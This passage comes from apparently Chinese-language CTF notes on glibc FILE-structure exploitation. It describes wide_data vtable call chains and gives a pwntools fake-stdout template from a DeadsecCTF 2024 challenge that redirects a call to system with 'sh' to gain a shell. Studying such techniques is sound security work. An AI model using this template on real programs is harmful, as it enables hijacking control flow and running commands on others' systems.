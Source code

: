 函数的调用链如下：

```c
_IO_wfile_underflow_mmap
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

## 利用_IO_wdefault_xsgetn 
这条链执行的条件是调用到_IO_wdefault_xsgetn 时 rdx 寄存器，也就是第三个参数不为 0。如果不满足这个条件，可选用其他链。

对 fp 的设置如下：

+ _flags 设置为 0x800
+ vtable 设置为_IO_wstrn_jumps/_IO_wmem_jumps/_IO_wstr_jumps 地址（加减偏移），使其能成功调用_IO_wdefault_xsgetn 即可
+ _mode 设置为大于 0，即满足 *(fp + 0xc0) > 0
+ _wide_data 设置为可控堆地址 A，即满足 *(fp + 0xa0) = A
+ _wide_data->_IO_read_end == _wide_data->_IO_read_ptr 设置为 0，即满足 *(A + 8) = *A
+ _wide_data->_IO_write_ptr > _wide_data->_IO_write_base，即满足 *(A + 0x20) > *(A + 0x18)
+ _wide_data->_wide_vtable 设置为可控堆地址 B，即满足 *(A + 0xe0) = B
+ _wide_data->_wide_vtable->overflow 设置为地址 C 用于劫持 RIP，即满足 *(B + 0x18) = C

函数的调用链如下：

```c
_IO_wdefault_xsgetn
    __wunderflow
        _IO_switch_to_wget_mode
            _IO_WOVERFLOW
                *(fp->_wide_data->_wide_vtable + 0x18)(fp)
```

### 注意
不可以直接通过 stdout 的 FILE 指针直接修改 stdout 的 FILE 结构体，但是因为 stderr 可以直接通过 FILE 指针直接修改结构体，而 stderr 和 stdout 的 FILE 结构体是相邻的，所以可以直接溢出到 stdout 的 FILE 结构体来劫持

## puts 板子
来自题目 DeadsecCTF 2024 shadow

原本 puts 是调用_IO_sputn 的，劫持 vtable 到 wide_vtable(_IO_wfile_jump)里面的_IO_wfile_seekoff 了

要修改的东西如下(fp代指_IO_2_1_stdout_->file)：

+ vtable 改成_IO_wfile_jumps+0x10
+ fp -> _wide_data改成一个可控地址，这道题里直接改成了_IO_2_1_stdout_
+ fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
+ fp -> _wide_data -> _wide_vtable改成一个可控地址,这道题里改成了_IO_2_1_stdout_-8
+ fp -> _wide_data -> _wide_vtable -> overflow改成ogg或system

```c
fake_file = flat({
    0x0: b'  sh;',
    0x10: p64(libc_base + libc.symbols['system']),//fp -> _wide_data -> _wide_vtable -> overflow
    0x18: p64(0),//用来满足_IO_wfile_seekoff中was_writing=1
	0x20: p64(1),//用来满足_IO_wfile_seekoff中was_writing=1

    0x88: p64(libc_base + libc.symbols['_environ']-0x10),  //_lock
    0xa0: p64(libc_base + libc.symbols['_IO_2_1_stdout_']),//fp -> _wide_data
    0xd8: p64(libc_base + libc.symbols['_IO_wfile_jumps'] + 0x10),//vtable+0x10
    0xe0: p64(libc_base + libc.symbols['_IO_2_1_stdout_']-8), //fp -> _wide_data -> _wide_vtable
}, filler=b"\x00")
```

